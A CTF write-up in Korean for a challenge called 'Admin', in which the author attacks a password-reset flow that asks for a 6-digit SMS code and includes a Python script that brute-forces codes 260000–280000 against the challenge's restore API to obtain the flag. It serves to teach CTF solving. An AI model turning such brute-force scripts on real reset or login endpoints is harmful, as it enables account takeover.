



# Admin
> I'm not an expert, but it seems to me that something needs to be hacked here



문제의 설명을 보니 뭔가 SQL Injection은 아닌 것 같아서 일단 `Forgot your password?` 버튼을 눌러봤다.



그러면 프롬프트 창이 뜨고 6자리의 코드를 입력해야 했다.

```json
{"status":"success","response":{"need_sms":true,"new_hash":"30d2abae719e2a304d21484d7e8c49c4"}}
```

요청을 프록시로 잡아보니 요청을 보낼 때마다 `new_hash`의 값이 계속 바뀌었는데, 이 값이 입력해야 할 코드를 암호화한 값일 것 같았다. 해시 값이 MD5여서 복호화를 해보려고 했지만 실패했다. 그래서 000000~999999 사이의 코드를 MD5로 암호화한 값과 `new_hash`의 값을 비교해봤지만 해시 값과 동일한 코드가 발견되지 않았다.

> Hint 1: just one million possible combinations..

시간이 지나고 첫 번째 힌트가 나왔다. 설마 Brute Force 문제는 아닐 것 같아서 딱히 시도해보지는 않았다. 시간이 더 지나고 두 번째 힌트가 나왔다.

> Hint 2: I think the code is somewhere between 260000 and 280000

정말 Brute Force 문제였다. 파이썬 코드를 작성하고 실행시켜보니 `272273`에서 종료되었다. 이 값을 프롬프트 창에 입력해보니 플래그가 출력되었다.

```python
import requests

for i in range(260000, 280001):
    url = "http://sherlock-message.ru/api/admin.restore"
    res1 = requests.post(url)
    data1 = res1.text[-35:-3]  # new_hash
    print(i)

    data2 = {"hash" : data1, "sms_code" : i}
    res2 = requests.post(url, data=data2)
    if res2.text.find("new_hash") == -1:
        print(res2.text)
        break
```

